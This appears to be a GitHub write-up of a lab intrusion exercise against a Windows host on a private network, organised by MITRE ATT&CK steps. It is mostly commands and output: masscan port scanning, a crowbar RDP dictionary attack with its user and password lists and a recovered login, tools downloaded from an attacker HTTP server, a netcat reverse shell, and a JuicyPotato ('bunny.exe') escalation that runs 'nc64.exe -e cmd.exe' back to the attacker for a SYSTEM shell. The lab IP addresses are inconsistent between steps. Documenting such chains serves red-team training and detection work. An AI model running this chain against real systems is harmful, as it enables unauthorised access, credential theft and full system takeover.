 ![image](https://github.com/user-attachments/assets/961e68ec-e5d4-455b-87a6-960ac3ecc351)# CASE1

**Attacker :** 192.168.106.141
**Victim :** 192.168.106.142



## STEP1. Initial Access : External Remote Services(T1133)
| Using masscan for RDP port scanning and crowbar for Dictionary Attacks to attempt RDP logon.




Attack Tools : masscan, crowbar
- masscan - port scanner : https://github.com/robertdavidgraham/masscan
- Crowbar - Brute forcing tool : https://github.com/galkan/crowbar
- Support : OpenVPN, Remote Desktop Protocol (RDP) with NLA support, SSH private key authentication, VNC key authentication

### Attacker

![image](https://github.com/user-attachments/assets/f94a5ef2-97ab-4edd-8a95-6144de8257d4)

[RDP port scan with masscan tool]


```shell

# masscan 192.168.106.142 -p1025-65535 --rate-1000000

┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# masscan 192.168.106.142 -p30000-30040 --rate-1000000

rate-1000000: empty parameter
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-10 21:32:54 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [41 ports/host]
Discovered open port 30039/tcp on 192.168.106.142

```

![image](https://github.com/user-attachments/assets/d5e815a5-20b5-4d2b-8fbb-6638e739ce00)

[RDP logon Dictionary Attack with crowbar tool]

```shell
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# ls
bunny.exe  crowbar  mimikatz.exe  nc64.exe  passlist.txt  userlist.txt
                                                                                                          
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat userlist.txt 
test
iglootest
testuser
user
admin
administrator
manager
boss
main                                                                                                      
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat passlist.txt 
qwer1234!
123456
qwer1234
administrator
admin
test
manager
test1234
test1234!
12345678
Administrator                                                                                             
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cd crowbar       
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1/crowbar]
└─# ./crowbar.py -b rdp -s 192.168.106.142/32 -U ../userlist.txt -C ../passlist.txt -p 30039
2025-01-10 17:15:30 START
2025-01-10 17:15:30 Crowbar v0.4.3-dev
2025-01-10 17:15:30 Trying 192.168.106.142:30039
2025-01-10 17:15:36 RDP-SUCCESS : 192.168.106.142:30039 - testuser:qwer1234
2025-01-10 17:15:45 STOP

```

Attack Tools : xfreerdp
- xfreerdp: https://linux.die.net/man/1/xfreerdp
An X11 Remote Desktop Protocol (RDP) client that is part of the FreeRDP project, enabling RDP access in Linux environments.

![image](https://github.com/user-attachments/assets/238f67a0-ac40-46ec-a21f-eddec0fef27f)

[Connect RDP to xfreerdp]

```shell

```

![image](https://github.com/user-attachments/assets/a3174dd7-ab96-48c8-a5a7-16bf96dec33e)
[The victim's credentials don't match ]


## STEP2. Execution : Command and Scripting Interpreter(T1059)

### Attacker
```shell
# cd /home/kali/Attacker_Tool/CASE1
# python3 -m http.server 8080

```
### Victim
![image](https://github.com/user-attachments/assets/2855a712-9824-4c9b-aac6-e0417984f23a)
[ Download netcat and JuicyPotato(bunny.exe) from Attacker server]

![image](https://github.com/user-attachments/assets/12db89a9-05b9-451b-bece-0faf15d44333)
[Detection Windows Defender Security Center]

### Attacker
![image](https://github.com/user-attachments/assets/951621b2-94ba-4249-acbd-77b61b14c48f)
[Connect reverse shell to 4445 port using netcat(nc64.exe)]



![image](https://github.com/user-attachments/assets/ffdb0774-7d1a-4878-9dcd-d420fe71727b)
[ Verify testuser account’s permissions and run cmd with Administrator privilege Enter testuser password stolen by Dictionary Attack ]


```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50863
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\testuser>runas /user:Administrator "cmd"
runas /user:Administrator "cmd"
Enter the password for Administrator: 

C:\Users\testuser>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\testuser> Start-Process cmd -Verb RunAs
Start-Process cmd -Verb RunAs
PS C:\Users\testuser> 

```

Administrator Permission Console(cmd)

![image](https://github.com/user-attachments/assets/ebe13ef1-0115-49c3-876e-23cbc4af3d4e)
[ Check permission 'SeImpersonatePrivilege' for privilege escalation vulnerabilities ]



```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50877
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\testuser>![image](https://github.com/user-attachments/assets/4ca929bf-9c94-4201-9950-c4f92366fc4d)

```


![image](https://github.com/user-attachments/assets/44e9409f-e927-4d60-8209-a8c826e4d712)


## STEP3. Privilege Escalation : Abuse Elevation Control Mechanism(T1548)
Attack Tools : JuicyPotato(bunny.exe)

![image](https://github.com/user-attachments/assets/0460906c-9835-4cab-9f32-7ab4386faee0)
[ Using JuicyPotato(bunny.exe) to steal SYSTEM privilege ]


```shell
c:\Users\testuser>bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\testuser>


```



